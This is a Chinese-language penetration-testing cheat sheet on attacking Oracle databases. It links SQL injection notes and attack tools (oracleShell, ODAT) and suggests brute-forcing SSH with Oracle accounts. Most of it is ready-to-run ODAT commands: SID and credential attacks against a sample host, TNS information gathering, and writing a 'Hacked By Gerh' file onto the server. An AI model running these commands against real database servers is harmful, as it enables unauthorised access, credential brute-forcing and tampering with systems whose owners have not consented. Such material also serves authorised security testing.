 **注入**
- [Oracle数据库注入笔记](../Web安全/Web_Generic/SQLi.md#Oracle)

**Tips**

- scott 用户默认没有启用
- 可以用 oracle 的账号试试 ssh 的爆破

**相关文章**
- [How to hack an Oracle database server](https://hackingprofessional.github.io/Security/how-to-hack-an-Oracle-database-server/)

**相关渗透工具**
- [jas502n/oracleShell](https://github.com/jas502n/oracleShell) - oracle 数据库命令执行工具,支持连接的 Oracle 版本较低
- [quentinhardy/odat](https://github.com/quentinhardy/odat) - Oracle 数据库攻击工具,支持功能包括爆破 SID,提权,命令执行
    ```bash
    # 安装
    apt install -y libaio1 alien
    apt install -y python3-scapy
    pip3 install colorlog termcolor pycrypto passlib cx_Oracle pyinstaller
    pip3 install argcomplete && activate-global-python-argcomplete
    git clone https://github.com/quentinhardy/odat.git

    # 访问 https://www.oracle.com/database/technologies/instant-client/linux-x86-64-downloads.html 下载 rpm 包
    alien --to-deb oracle-instantclient19.6-basic-19.6.0.0.0-1.x86_64.rpm
    dpkg -i oracle-instantclient19.6-basic_19.6.0.0.0-2_amd64.deb
    export ORACLE_HOME=/usr/lib/oracle/19.6/client64/
    export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
    export PATH=${ORACLE_HOME}bin:$PATH

    sudo -s
    sources /etc/profile
    python3 -c 'import cx_Oracle'
    python3 odat.py -h
    ```
    ```bash
    python3 odat.py all -s 192.168.1.254 -p 1521
    python3 odat.py all -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234

    # 信息收集
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --ping
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --version
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --status

    # 写文件
    echo "Hacked By Gerh" > /tmp/File-Test.txt
    python3 odat.py dbmsxslprocessor -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234 --putFile "/tmp" "File-Test.txt" "/tmp/File-Test.txt"
    ```
